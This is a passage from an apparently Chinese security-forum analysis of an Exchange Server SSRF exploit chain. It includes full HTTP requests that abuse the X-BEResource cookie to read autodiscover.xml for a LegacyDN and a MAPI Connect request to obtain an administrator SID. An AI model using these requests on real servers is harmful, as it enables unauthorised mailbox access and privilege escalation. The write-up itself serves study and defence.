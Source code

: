 这里ssrf去访问`autodiscover.xml`自动配置文件的原因是因为Autodiscover(自动发现)是自Exchange Server 2007开始推出的一项自动服务，用于自动配置用户在Outlook中邮箱的相关设置，简化用户登陆使用邮箱的流程。如果用户账户是域账户且当前位于域环境中，通过自动发现功能用户无需输入任何凭证信息即可登陆邮箱。`autodiscover.xml`文件中包含有LegacyDN 的值

通过SSRF漏洞读取autodiscover.xml文件，获取LegacyDN的值；

```http
POST /ecp/target.js HTTP/1.1
Host: localhost
Connection: close
Cookie: X-BEResource=name]@win-v2jneuvoljv.test.com:443/autodiscover/autodiscover.xml?#~1941962753
Content-Type: text/xml
Content-Length: 337

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
    <EMailAddress>Administrator@test.com</EMailAddress>
    <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-de28ac7d80b9da79a23b8a900540d3f38ed30e40.png)

### 利用Legacy DN获取SID；

消息处理API（MAPI）是Outlook用于接收和发送电子邮件相关信息的API，在Exchange 2016以及2019当中，微软又为其加入了MAPI over HTTP机制，使得Exchange和Outlook可以在标准的HTTP协议模型之下利用MAPI进行通信。整个MAPI over HTTP的协议标准可以在[官方文档](https://interoperability.blob.core.windows.net/files/MS-OXCMAPIHTTP/%5BMS-OXCMAPIHTTP%5D.pdf)中查询。为了获取对应邮箱的SID，如下图所示的exploit中利用了用于发起一个新会话的Connect类型请求。

```http
POST /ecp/1.js HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=a@win-v2jneuvoljv.test.com:444/mapi/emsmdb?~1941962754
Content-Type: application/mapi-http
X-Requesttype: Connect
X-Clientinfo: x
X-Clientapplication: Outlook/15.0.4815.1002
X-Requestid: x
Content-Length: 151

/o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=cb4034a0f211454d89075d7b5f20cbfa-Admin+ \x00\x00\x00\x00\x00\xe4\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00
```
